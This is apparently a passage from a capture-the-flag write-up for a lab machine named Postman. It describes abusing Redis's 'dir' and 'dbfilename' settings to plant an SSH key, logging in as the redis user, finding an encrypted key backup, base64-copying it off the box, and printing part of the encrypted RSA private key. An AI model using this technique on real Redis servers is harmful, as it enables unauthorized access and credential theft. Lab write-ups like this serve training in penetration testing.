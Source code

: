 Pulling this attack off requires basic knowledge of the Python `redis` [package](https://pypi.org/project/redis/), DB flushing, and an understanding of the two config keys I have used. The key names and their effect can be understood by checking out the relevant section in the Redis default config file:

```
# The filename where to dump the DB
dbfilename dump.rdb

# The working directory.
#
# The DB will be written inside this directory, with the filename specified
# above using the 'dbfilename' configuration directive.
#
# The Append Only File will also be created inside this directory.
#
# Note that you must specify a directory here, not a file name.
dir ./
```

After executing the exploit, we simply need to SSH into the box as `redis` user:

```sh
# ssh -i ~/.ssh/id_rsa redis@10.10.10.160
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
```

Looking around a bit, we find an interesting backup file:

```sh
redis@Postman:~$ ls
/opt/ id_rsa.bak

```

It's an encrypted SSH key, so we `base64` it, copy it over, and decode it.

```sh
redis@Postman:~$ cat /opt/id_rsa.bak | base64
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpQcm9jLVR5cGU6IDQsRU5DUllQVEVECkRFSy1JbmZvOiBERVMtRURFMy1DQkMsNzNFOUNFRkJDQ0Y1Mjg3QwoKSmVoQTUxSTE3cnNDT09WcXlXeCtDODM2M0lPQllYUTExRGR3L3ByM0wyQTJORHRCN3R2c1hOeXFLRGdoZlFuWApjd0dKSlVEOWtL...
```

```sh
# (cat user.key.bak | base64 -d) > user.key

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
```